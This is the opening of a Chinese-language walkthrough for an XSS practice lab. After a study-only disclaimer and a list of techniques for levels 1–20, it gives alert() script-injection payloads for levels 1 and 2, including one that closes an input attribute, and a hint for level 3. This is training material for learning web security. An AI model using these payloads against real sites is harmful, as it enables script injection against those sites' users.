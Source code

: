 # XSS挑战-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**知识点**
- 无过滤 XSS (level 1)
- 各种难度的构造闭合 XSS (level 2、3、4、5、6)
- 各种难度的绕过过滤 XSS (level 2、3、4、5、6)
- 双写拼接 XSS (level 7)
- 实体编码+HTML 编码 XSS (level 8、9)
- input 中的 XSS (level 10)
- HTTP headers 头中的 XSS (level 11、12、13)
- exif XSS (level 14)
- angularjs XSS (level 15)
- URL 编码 XSS (level 16)
- embed 标签的 XSS (level 17、18)
- Flash XSS (level 19、20)

---

# level 1

没什么过滤,直接使用 `<script>alert(123)</script>` 即可

payload: `http://<靶机IP>/level1.php?keyword=test<script>alert(123)</script>`

---

# level 2

![images](../../../../../assets/img/Security/RedTeam/Web安全/靶场/XSS/1.png)

使用 `">` 构造输入框的闭合

payload: `test"><script>alert(123)</script>`

---

# level 3

使用 `'` 可以闭合

![images](../../../../../assets/img/Security/RedTeam/Web安全/靶场/XSS/2.png)
